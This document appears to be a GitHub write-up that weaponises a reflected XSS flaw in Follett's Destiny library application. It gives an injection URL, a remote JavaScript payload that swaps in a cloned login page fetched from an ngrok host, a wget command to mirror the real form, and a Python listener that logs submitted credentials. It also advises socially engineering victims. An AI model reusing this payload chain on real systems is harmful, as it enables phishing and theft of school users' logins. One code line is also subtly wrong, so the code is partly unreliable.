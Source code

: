 ﻿## Reflected XSS Injection

The Destiny application by Follet Learning Solutions has a reflected XSS Injection in versions up to 20.0_1U. Today, I will provide the weaponization process of the Reflected XSS Injection to showcase how to abuse it.

Firstly, make sure your school ID has been set to the school that contains the search functions. It is in your cookie. You can socially engineer your victim to click on the proper school first anyways.

Reflected XSS - VERSION > 20.0_1
```
https://site.com/cataloging/servlet/handlewpesearchform.do?spotlightID=&themeID=&searchString=twode%3c%2ftitle%3e%3cscript%3ealert("Reflected XSS :)")%3c%2fscript%3eaaaaa&SearchWPE.x=0&SearchWPE.y=0
```

Now you will need to host your remote JS file. In this case, I will be replicating the login form so it displays that instead of the contents on the page.

```javascript
document.addEventListener("DOMContentLoaded", function() {
//hide first body - stops browser from flashing
const body = document.body;
body.style.display = 'none';  

// this was super hacky work around as multiple IDs shouldn't exist.
function hideFirstElementWithId(id) {
    var elements = document.querySelectorAll(`#${id}`);
    if (elements.length = 0) {
        elements[0].style.display = 'none';
    }
}


var request = new XMLHttpRequest();

// Open a new connection, using the GET request on the URL endpoint
request.open('GET', 'https://xxxxxx.ngrok.app/login.html', true);

request.onload = function() {
  var data = this.response;
  var div = document.createElement('div');
  div.innerHTML = data;
  body.appendChild(div);
  body.style.display = 'block';
  hideFirstElementWithId('masterHeaderTable');
  hideFirstElementWithId('masterTable');
}

// Send request
request.send();
});
```

Login html will be the login form, let's go ahead and replicate it.

```javascript
wget --mirror            \
     --no-cookies        \
     --header  "Cookie: siteIDCookie=0; JSESSIONID=XXXX.destiny"     \
     --convert-links     \
     --wait=2            \
     -o log              \
     https://victim.com/common/servlet/presentloginform.do
```

Now that we have the presentloginform.do. Rename it to login.html and then change the HTML login form and point it to our ngrok instance.

```angular2html
<form name="common_servlet_LoginForm" method="post" action="https://XXXXX.ngrok.app/login.html/fetch.html" onsubmit="return submitInterceptor_0();">
```

Please make sure the above has the correct Interceptor ID at the end. It will be on the page.

Now we will want to serve the files.

```angular2html
ngrok http 9999
```

```python
#!/usr/bin/env python3
from http.server import HTTPServer, SimpleHTTPRequestHandler, test
import sys

class CORSRequestHandler (SimpleHTTPRequestHandler):
    def end_headers (self):
        self.send_header('Access-Control-Allow-Origin', '*')
        SimpleHTTPRequestHandler.end_headers(self)
    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length).decode('utf-8')
        # Log the post_data or perform any other desired actions
        print("Received POST data:", post_data)
        self.send_response(200)
        self.send_header('Content-type','text/html')
        self.end_headers()

if __name__ == '__main__':
    test(CORSRequestHandler, HTTPServer, port=int(sys.argv[1]) if len(sys.argv) > 1 else 9999)
```

Start the custom python listener as provided.

``` 
https://victim.com/cataloging/servlet/handlewpesearchform.do?spotlightID=&themeID=&searchString=twode%3c%2ftitle%3e%3cscript src="https://xxxxx.ngrok.app/xss.js"%3eeaaaaa&SearchWPE.x=0&SearchWPE.y=0
```

Provided the victim has the proper school ID in their cookie, a login form will be presented instead of the intended page.

